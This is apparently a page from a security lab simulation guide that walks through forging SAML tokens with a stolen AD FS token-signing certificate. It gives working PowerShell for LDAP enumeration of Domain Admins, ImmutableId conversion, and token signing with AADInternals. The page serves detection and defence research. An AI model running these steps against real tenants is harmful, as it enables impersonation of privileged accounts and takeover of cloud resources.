



Forge SAML Tokens
Contents
Forge SAML Tokens#
If a threat actor gets to decrypt and export the AD FS token signing certificate, the certificate can be used to sign new SAML tokens and impersonate users in a federated environment.
Table of Contents#
Preconditions#
Integrity level: medium
Authorization:
Resource: Domain Controller
Identity:
Domain Users
Domain Controller
Services:
Active directory domain services
Network:
Port: 389
Input:
AD FS Token Signing Certificate
Simulation Steps#
Enumerate Privileged Accounts via Lightweight Directory Access Protocol (LDAP)#
Start by identifying privileged accounts that could also have privileged access to resources in the cloud. Usually, environments add their domain admin accounts to the Azure AD built-in Global Administrator role. Therefore, you can start by enumerating the members of the Domain Admins group.
Connect to a domain joined endpoint via the Azure Bastion service.
Open PowerShell and run the following commands:
# Get Domain Name
$DomainName = (Get-WmiObject Win32_ComputerSystem).Domain
$arr = ($DomainName).split('.')
$DNDomain = [string]::Join(",", ($arr | % { "DC={0}" -f $_ }))
# Create LDAP Search
$ADSearch = New-Object System.DirectoryServices.DirectorySearcher
$ADSearch.SearchRoot = "LDAP://$DomainName/$DNDomain"
$ADSearch.Filter = "(&(objectCategory=user)(memberOf=CN=Domain Admins,CN=Users,$DNDomain))"
$ADUsers = $ADSearch.FindAll()
$Results = @()
# Process Results
ForEach($ADUser in $ADUsers){
If($ADUser){
$Object = New-Object PSObject -Property @{
Samaccountname = ($ADUser.Properties).samaccountname
ObjectGuid = ([guid]($ADUser.Properties).objectguid[0]).guid
}
$Results += $Object
}
}
# Display results
$Results | Format-Table Samaccountname,ObjectGuid

Forge SAML Token#
A threat actor would most likely do this outside of the organization. Therefore, there are no detections for this step.
Convert User AD Object GUID to its Azure AD Immutable ID representation#
Once we identify the privileged user we want to impersonate, we need to obtain the
immutable IDof the account AD object GUID. TheImmutableIdis the base64-encoded representation of a domain user GUID in Azure AD.
$Results[1].Samaccountname
$Results[1].ObjectGuid
$ObjectGUID = $Results[1].ObjectGuid
$ImmutableId = [convert]::ToBase64String(([guid]$ObjectGUID).ToByteArray())
$ImmutableId

Install AADInternals#
On the same PowerShell session, run the following commands to install AADInternals if it is not installed yet:
Install-Module –Name AADInternals -Force
Import-Module –Name AADInternals
Sign a New SAML Token#
Use the New-AADIntSAMLToken function with the following information to sign a new SAML token:
The
ImmutableIDwe got in the first section.The path to the token signing certificate file.
The AD FS token issuer url.
$Cert = 'C:\ProgramData\ADFSSigningCertificate.pfx'
$Issuer = 'http://simulandlabs.com/adfs/services/trust/'
$SamlToken = New-AADIntSAMLToken -ImmutableID $ImmutableId -PfxFileName $Cert -PfxPassword "" -Issuer $Issuer
$SamlToken

Output#
SAML Token